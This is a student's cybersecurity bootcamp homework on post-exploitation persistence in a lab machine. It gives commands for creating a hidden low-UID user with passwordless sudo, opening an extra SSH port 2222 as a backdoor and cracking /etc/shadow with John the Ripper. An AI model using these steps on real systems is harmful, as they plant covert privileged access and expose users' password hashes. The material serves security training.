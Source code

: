 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

#### By Steven Pigatto

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
   -    `usermod -u 111 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 113 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo`
   -  `sysd ALL=(ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
    Matching Defaults entries for root on scavenger-hunt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User root may run the following commands on scavenger-hunt:
    (ALL : ALL) ALL

    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    cd /etc/ssh
    nano sshd_config
    add Port 2222 under #Port 22
    Ctrl + x
    Y to save.
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh -p 2222 192.168.6.105`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
   - `sudo su`
   -    `cd /etc`
    -  `john shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

